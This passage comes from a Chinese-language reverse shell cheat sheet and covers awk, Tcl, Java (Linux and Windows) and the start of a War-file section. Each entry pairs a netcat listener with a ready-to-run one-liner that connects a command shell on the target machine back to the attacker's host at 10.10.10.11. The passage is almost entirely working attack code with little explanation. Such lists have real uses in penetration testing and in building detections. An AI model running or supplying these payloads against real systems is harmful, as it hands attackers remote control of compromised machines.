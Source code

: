 ```bash
nc -lvp 443
```
然后在靶机上执行如下命令：

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.11/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## 14、TCL脚本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
echo 'set s [socket 10.10.10.11 443];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
```
## 15、Java版本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：

linux平台：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
windows平台：
```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
创建线程：
```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```
## 16、生成War文件反弹shell
首先在本地监听TCP协议443端口
